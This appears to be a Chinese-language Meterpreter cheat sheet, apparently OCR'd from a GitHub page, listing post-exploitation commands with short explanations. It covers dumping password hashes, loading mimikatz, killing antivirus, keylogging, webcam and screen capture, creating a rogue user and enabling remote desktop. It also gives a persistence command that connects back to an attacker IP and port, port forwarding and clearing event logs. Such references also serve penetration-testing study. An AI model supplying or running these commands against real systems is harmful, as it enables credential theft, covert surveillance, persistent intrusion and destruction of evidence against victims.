 ```bash
==========================================
Priv：Timestomp 命令：
==========================================
命令                           说明
-------                       ------------
timestomp                     操作文件 MACE 属性

meterpreter >
```

常用的Meterpreter命令:

```shell
sysinfo             									#查看目标主机系统信息
run scraper         									#查看目标主机详细信息
run hashdump        									#导出密码的哈希
load kiwi           									#加载mimikatz
ps                  									#查看目标主机进程信息
pwd                		 								#查看目标当前目录(windows)
getlwd              									#查看目标当前目录(Linux)
search -f *.jsp -d e:\                					#搜索E盘中所有以.jsp为后缀的文件
download  e:\test.txt  /root          					#将目标机的e:\test.txt文件下载到/root目录下
upload    /root/test.txt d:\test      					#将/root/test.txt上传到目标机的 d:\test\ 目录下
getpid             										#查看当前Meterpreter Shell的进程PID
migrate 1384        									#将当前Meterpreter Shell的进程迁移到PID为1384的进程上
idletime           		 								#查看主机运行时间
getuid              									#查看获取的当前权限
getsystem           									#提权,获得的当前用户是administrator才能成功
run  killav        			 							#关闭杀毒软件
screenshot          									#截图
webcam_list         									#查看目标主机的摄像头
webcam_snap         									#拍照
webcam_stream       									#开视频
execute 参数 -f 可执行文件   							    #执行可执行程序
run getgui -u test1 -p Abc123456    					#创建test1用户，密码为Abc123456
run getgui -e                							#开启远程桌面
keyscan_start                							#开启键盘记录功能
keyscan_dump                			 				#显示捕捉到的键盘记录信息
keyscan_stop                 							#停止键盘记录功能
uictl  disable  keyboard     							#禁止目标使用键盘
uictl  enable   keyboard     							#允许目标使用键盘
uictl  disable  mouse        							#禁止目标使用鼠标
uictl  enable   mouse        							#允许目标使用鼠标
load                        							#使用扩展库
run				             							#使用扩展库

#会自动连接192.168.100.132的8888端口，缺点是容易被杀毒软件查杀 
run exploit/windows/local/persistence lhost=192.168.100.132 lport=8888        
#将192.168.11.13的3389端口转发到本地的9999端口上，这里的192.168.100.158是获取权限的主机的ip地址
portfwd add -l 9999 -r 192.168.100.158 -p 3389     		
clearev                                                 #清除日志
```
